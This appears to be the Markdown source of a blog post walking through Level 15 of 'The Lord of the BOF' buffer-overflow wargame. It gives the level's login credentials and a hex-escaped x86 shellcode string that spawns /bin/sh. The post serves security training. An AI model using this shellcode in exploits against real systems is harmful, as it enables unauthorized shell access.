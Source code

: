 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 15"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level15/1.jpg" | relative_url }}' alt='relative'>  

## 1) giant/one step closer 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level15/2.png" | relative_url }}' alt='relative'>  

``` bash
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"
```